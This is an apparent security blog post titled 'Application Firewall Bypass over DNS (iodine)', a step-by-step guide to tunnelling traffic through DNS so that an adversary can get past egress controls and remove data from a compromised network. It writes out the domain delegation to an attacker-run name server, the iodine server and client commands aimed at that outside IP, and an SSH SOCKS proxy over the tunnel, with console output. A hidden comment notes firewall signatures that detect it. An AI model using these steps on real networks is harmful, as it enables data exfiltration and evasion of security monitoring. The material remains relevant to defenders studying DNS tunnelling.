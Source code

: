 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2021-05-11 10:43:25 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that. The documentation can be found here, https://code.kryo.se/iodine/. I find it somewhat convoluted so decided to write my own post on how to use it here.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control. I've stuck with the naming from the Iodine documentation to make it more relatable.
</p>

<p>
The following screenshot from Cloudflare Dash shows that an A record has been created for my malicious name server, currently at 35.196.116.250. This is the host we will run Iodine on. From there an entire subdomain has been delegated to that malicious name server, t1.ninjastars.cf.
</p>

<img src="/images/iodone-dnsconfig.png">

<p>
You can verify the DNS is pointing in the correct direction with <code>dig ns t1.ninjastars.cf +trace</code>. In this case you can see that the NS is delegated to <code>t1ns.ninjastars.cf</code>.
</p>

<pre>t1.ninjastars.cf.	7200	IN	NS	t1ns.ninjastars.cf.</pre>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 35.196.116.250/t1ns.ninjastars.cf) start the iodine server. The address 10.0.0.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server. <b>Make sure you are using iodined on the server!</b>
</p>
<br>
<code>
iodined -f 10.0.0.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<pre>
root@sperciballi-iodine:/home/stephen# iodined -f 10.0.0.1 -P boom   t1.ninjastars.cf
Opened dns0
Setting IP of dns0 to 10.0.0.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain t1.ninjastars.cf
</pre>


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<code>
iodine -f 35.196.116.250 -P boom t1.ninjastars.cf
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# iodine -f 35.196.116.250 -r -P boom t1.ninjastars.cf
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for t1.ninjastars.cf to 35.196.116.250
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.0.0.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.0.0.1
Skipping raw mode
Using EDNS0 extension
Switching upstream to codec Base128
Server switched upstream to codec Base128
No alternative downstream codec available, using default (Raw)
Switching to lazy mode for low-latency
Server switched to lazy mode
Autoprobing max downstream fragment size... (skip with -m fragsize)
768 ok.. ...1152 not ok.. 960 ok.. 1056 ok.. 1104 ok.. 1128 ok.. 1140 ok.. will use 1140-2=1138
Setting downstream fragment size to max 1138...
Connection setup complete, transmitting data.
</pre>
<p>
At this point you should be able to ping the server side tunnel IP (10.0.0.1) from the client side of the tunnel.
</p>


<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side, or more securely an SSH tunnel which is demonstrated below.
</p>

<p>
From the client side of the tunnel we will be SSH'ing into our Iodine server, however as part of that session will open up a local port 8081 that will be used as a SOCKS5 proxy. Note that the IP 10.0.0.1 is the server side of the tunnel.
<p>

<pre>
ssh -i ./google_compute_engine -C -D 8081 stephen@10.0.0.1
</pre>

<p>
With your proxy server started on the client device, a simple use case is to configure your browser connection settings to use a SOCKS5 proxy and using localhost:8081.
</p>

<p>
Search the web for what's my IP and you will see that it is now the public IP of the Iodine server.
</p>

<img src="/images/iodine-ip.png">

<!--
<h3>Step 5 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW permitted the session. That being said there were three opportunities so far that it could have prevented this traffic; The application was identified as tcp-over-dns where all you would want is DNS at most, then there were two spyware signatures identified as "Yourfreedom Command and Control" and "Iodine DNS Tunnel Tool Command and Control".
</p>
<br>
<br>
<img src="/images/appid-evasion-iodinengfw.png" alt="ngfw">

-->


